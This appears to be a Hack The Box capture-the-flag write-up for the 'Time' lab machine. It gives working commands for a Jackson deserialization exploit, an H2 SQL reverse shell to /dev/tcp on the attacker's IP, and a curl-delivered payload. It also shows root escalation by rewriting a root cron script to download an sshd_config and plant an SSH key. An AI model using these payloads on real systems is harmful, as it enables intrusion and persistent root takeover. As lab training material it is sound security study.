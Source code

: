 layout: page
title: "Time - Hack The Box"
permalink: /boxes/time

# Time

- [Time](#time)
  - [Discovery](#discovery)
  - [get user shell](#get-user-shell)
  - [Get a root shell](#get-a-root-shell)
    - [Direct ssh](#direct-ssh)
  - [Success](#success)

IP: 10.10.10.214

`echo 'time.htb 10.10.10.214' >> /etc/hosts`


## Discovery

`nmap -A time.htb`

Found current SSH on 22 and apache on 80.

In web browser found text entry box. placing invalid json in the box displays information about the library used to create the form:  jackson

This form will run java found in the well formatted json, we can use this 
to establish a reverse shell

## get user shell

my ip when connected was 10.10.16.22

> pipe listens on port 4444

`nc -lvp 4444`

> create our sql function to intiate the reverse shell, use our own ip and the port of our netcat listener

```sql
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
        String[] command = {"bash", "-c", cmd};
        java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
        return s.hasNext() ? s.next() : "";  }
$$;
CALL SHELLEXEC('bash --norc -i >& /dev/tcp/10.10.16.22/4444 0>&1')
```

> serve this file (and others later)

`python3 -m http.server 8000`

> in validate form, use the exploit to download and run the script

`["ch.qos.logback.core.db.DriverManagerConnectionSource", {"url":"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://10.10.16.22:8000/inject.sql'"}]`

>> this became tedious so let's just send with curl

`curl 'http://time.htb/' --data-raw 'mode=2&data=%5B%22ch.qos.logback.core.db.DriverManagerConnectionSource%22%2C+%7B%22url%22%3A%22jdbc%3Ah2%3Amem%3A%3BTRACE_LEVEL_SYSTEM_OUT%3D3%3BINIT%3DRUNSCRIPT+FROM+%27http%3A%2F%2F10.10.16.22%3A8000%2Finject.sql%27%22%7D%5D'`

**we have access!**

## Get a root shell

Let's upgrade our shell - not necessary
<!-- TODO use stty raw -->
`python3 -c 'import pty;pty.spawn("/bin/bash")'`

Messed around with `linenum.sh` but for this time box, let's look for cron job... 

or just listen for one:

download and server [pspy](https://github.com/DominicBreuker/pspy/releases/download/v1.2.0/pspy32s) with our webserver

```bash
cd /tmp # we can't write to /var/www
wget 10.10.16.22:8000/pspy32s
chmod +x pspy32s
./pspy32s
```

>2021/03/05 15:19:01 CMD: UID=0    PID=28297  | /bin/bash /usr/bin/timer_backup.sh 

This is running often AS root

### Direct ssh

Not sure how ssh is configured, we can just make our own config

On our machine

```bash
cat <<EOF > ./sshd_config
PubkeyAuthentication yes
PermitRootLogin yes
PasswordAuthentication no
MaxAuthTries 9999
EOF
```

serve up my pubkey as well

`cp ~/.ssh/id_rsa.pub .`

Back on the victim

```bash
cat << EOF > /usr/bin/timer_backup.sh
#!/bin/bash
# Can create a short lived reverse tunnel as root here as well
# bash --norc -i >& /dev/tcp/10.10.16.22/4445 0>&1
wget 10.10.16.22:8000/sshd_config
if ! diff sshd_config /etc/ssh/sshd_config; then
  cat sshd_config >/etc/ssh/sshd_config
  systemctl restart sshd
fi
# Ensure our ssh permissions
mkdir -p ~/.ssh
curl 10.10.16.22:8000/id_rsa.pub > ~/.ssh/authorized_keys
chmod 700 ~/.ssh
chmod 600 ~/.ssh/authorized_keys
EOF
```

## Success

`ssh root@time.htb`

> root@time:~# 
